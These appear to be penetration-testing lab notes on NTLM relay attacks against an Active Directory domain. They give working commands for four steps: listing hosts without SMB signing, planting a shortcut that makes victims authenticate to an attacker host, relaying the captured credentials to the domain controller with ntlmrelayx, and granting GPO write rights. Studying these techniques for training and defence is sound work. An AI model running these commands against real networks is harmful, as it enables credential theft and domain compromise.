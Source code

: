 # NTLM Relay

When capturing a [NTLMv1/2](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target

{% hint style="warning" %}
The relayed user must have privilege on the target.
{% endhint %}

### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interavtive session and use the below to add the user to have write access over the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>
